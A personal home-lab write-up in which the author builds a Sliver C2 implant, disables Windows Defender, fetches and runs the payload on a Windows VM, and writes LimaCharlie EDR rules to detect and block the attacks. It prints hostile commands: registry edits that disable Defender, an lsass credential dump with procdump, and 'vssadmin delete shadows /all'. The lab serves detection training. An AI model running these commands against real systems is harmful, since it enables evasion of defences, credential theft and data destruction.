


# Intro 

In this write-up, I'll follow the steps described by Eric Capuano in his home-lab setup described in "So you want to be a SOC Analyst?" set of articles that can be found here: 
https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro. 
 
In this lab we'll will accomplish the following: 

1. Setting up and configuring Ubuntu 22.04 VM server to use as an adversary machine
2. Setting up and configuring Windows 11 VM to use as our user machine
3. Setting up CharlieLima as our EDR solution for this lab
4. Creating and uploading C2 payload to get a shell on our 'victim' VM
5. Observe malicious activities via our CharlieLima UI
6. Create a new EDR rule to generate an alert and test it
7. Create a new EDR rule to block parent process and test it


First of all, we create an Ubuntu 22.04 Server VM in our VMware Workstation Pro 17.2 and check it's internet connectivity: 
                                               Pasted image 20240812131243.png

 
Our Ubuntu machine has 2 GB RAM, as well as 2 processors. Our Windows VM has 4 GB RAM & 4 processors.

# Part 1
## Configuring our Windows VM

### Disabling MS Defender

Next, we'll want to disable Windows Defender's built-in security settings in order for us to find our own machine and simulate attacks on it. 

As of Windows 11, it's quite tricky to disable Windows Defender fully, as it will turn itself back on. 

First of all, we need to disable **Tamper Protection**: 

1. Click the “Start” menu icon
2. Click “Settings”
3. Click “Privacy & security” on the left
4. Click “Windows Security”
5. Click “Virus & threat protection”


6. Under “Virus & threat protection settings” click “Manage settings”


7. Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”


Also we're disabling every other option in Virus & Threat protection tab as well, such as: 
1. Real-time protection
2. Dev Drive protection
3. Clod-delivered protection
4. Automatic Sample submission

Next, we'll disable Defender via Group Policy Editor: 

Going to cmd.exe and using command "gpedit.msc" that will bring up our Local  Group Policy Editor


From here via hierarchy tree on the left we navigate to the following policies: 
Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus. 

Here we choose "Turn off MS Defender Antivirus" and set it's settings to "Enabled"


Next we permanently disable Defender via Registry as well: 
By inputting the following command into the cmd window we've opened previously: 


```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```


After that we prepare to boot into safe mode to disable Defender Services via msconfig utility: 


After the system is rebooted, we can disable some services via Regedit: 

For every registry entry of the following, we'll have to set "Start" value to "4": 


1. `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense`
2. `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot`
3. `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend`
4. `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv`
5. `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc`
6. `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter`

### Preventing VM from going into a sleep mode

From administrative cmd.exe we run following commands: 
```
powercfg /change standby-timeout-ac 0
powercfg /change standby-timeout-dc 0
powercfg /change monitor-timeout-ac 0
powercfg /change monitor-timeout-dc 0
powercfg /change hibernate-timeout-ac 0
powercfg /change hibernate-timeout-dc 0
```

### Install Sysmon in Windows VM

From Powershell:

1. Download Sysmon with the following command.
    ```
    Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
    ```
2. Unzip Sysmon.zip
    ```
    Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
    ```
3. Download [SwiftOnSecurity](https://infosec.exchange/@SwiftOnSecurity)’s Sysmon config.
    ```
    Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
    ```
4. Install Sysmon with Swift’s config
    ```
    C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
    ```


5. Validate that Sysmon is installed and running


### Getting CharlieLima ERD for our Windows VM

We create an account and an organization for CharlieLima: 


Create a new sensor, choosing Windows type, as well as creating and choosing a new Installation Key for ourselves: 





Next, we'll run the downloaded program with the command argument provided in the LimaCharlie website: 


Which will connect our VM to the LimaCharlie: 


Now, we'll configure LimaCharlie to provide with Sysmon event logs as well as it's own telemetry: 

(This step is slightly different from the one described in the guide, as it now requires clicking on "Subscribe" to access "Artifact Collection Services")

We add the following rule: 


## Configuring Attack System

### Getting sliver-server

For this part of the write-up original guide tells us to SSH via host to our ubuntu server. But as it's set up using NAT, and not bridged or host-only connection - host system cannot see any of the VMs and vice versa. Thus, we'll use a quickly set-up Ubuntu flavor with GUI to SSH into our attack machine.

We'll download sliver-server software via ssh connection:

```
Getting the sliver-server: 
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server

Changing permissions to make it executable:
chmod +x /usr/local/bin/sliver-server

Installing mingw-w64 for additional capabilities 
apt install -y mingw-w64
```

And we're good to go for the 2nd part :) 

# Part 2

## Generate our C2 payload & Uploading it


To generate our payload, from our Ubuntu attack VM we drop into superuser shell. And go into our sliver directory: 

```
sudo su
cd /opt/sliver
```

Launching the sliver server: 

```
sliver-server
```


Now we can generate C2 session payload with the following command: 

```
generate --http [LinuxVM IP] --save /opt/sliver 
```


And confirm the new implants configuration 
```
implants
```


Now, as we've got our payload that we're going to drop into our Windows VM - we can do that. 

To upload our payload - we'll set up an http server on port 80 with the following command: 

```
python3 -m http.server 80
```

Now we can download the file from our VM with the following command in PowerShell: 

```
IWR -Uri http://192.168.88.133/TALL_EYEBROWS.exe -Outfile C:\Users\User\Downloads\TALL_EYEBROWS.exe
```


## Starting Command & Control session

To launch our C2 we start sliver server again:
```
sliver-server
```
And start http listener: 
```
http
```


Now back to our Windows VM administrative Powershell to execute the payload: 


To verify the connection we can use command `sessions` and note session ID as well: 


To interact with payload we can use `use [sesion id]` command: 


From here we can use various commands such as, but not limited to: 
```
getprivs, whoami, info, pwd
```


## Observe Telemetry so far

From LimaCharlie website - we can go to Sensors 


And click on our Windows sensor


Here, in "Processes" tab - we can see our C2 payload running and being observed by our EDR. 

By observing this process we can find what IP address this process communicates with quite easily as well: 


We can see that our payload is detected in "Network" tab as well: 


As well as we can find the file itself using "File System" tab. Here we can search for the file's hash with VirusTotal: 


Our payload does not return positive result with VT:


However, this does not mean that the file is good. Just that it was never observed by VT.


# Part 3 

## Actions on our C2 shell

We get back to our C2 shell and check for privileges we've got once again, looking for `SeDebugPrivilege`. This one is enabled for us, so everything is good to go.


Next, we'll try to dump lsass.exe process from memory to possibly get access to credentials with the following command: 

```
procdump -n lsass.exe -s lsass.dmp
```


This process fails for us, but it still generates logs that we can analyze in the next step: 

Through LimaCharlie Timeline tab we can search for "SENSITIVE_PROCESS_ACCESS" that should bring up our attempt: 


Now, as we know what this event looks like - we can create a EDR rule that will trigger an alert on such events: 


Here, in "Detect" section we're specifying that LimaCharlie should only look at SENSITIVE_PROCESS_ACCESS events where the target (or victim) is 'lsass.exe' 


And the following will be our response: 


Now we can test this rule against the event that was already transferred here by LimaCharlie: 


As we can see, the rule returned a match, thus, an alert will be triggered here. 

Now we can return to our C2 shell and re-run the command again to check if LimaCharlie will trigger an alert: 


As we can see, an alert was triggered according to the newly set-up rule!


# Part 4

## Blocking Attacks

In this part we'll take a look at an action that is common for ransomware attacks - deletion of volume shadow copies. 

Command that could do that looks like this: 
```
vssadmin delete shadows /all
```
It is not a command that would be used often in an actual environment, thus, creating a rule that would trigger upon such command would bare a **low false positive prevalence, high threat activity**.

We get back to our C2 shell and type in `shell` to get into the PS shell: 


Now, let's run the command mentioned above: 


The output here is not important, as we might not have any Shadows to delete currently. But as with the example from the previous part - such activity is surely to be detected by our EDR.


And it really was detected. Now we can view a raw event that triggered this alert by clicking the "View Event Timeline" button on this screen. 


And craft another EDR rule, as done previously. 


The rule will have the following response to it: 

```
- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - <<routing/parent>>
```

Now we can save the rule and test it again! 

Running the vssadmin command again results in the same output: 


However, when we try to run whoami - the shell just stops working, as it was closed as parent program by our newly created rule.


And that's it for this write-up! 
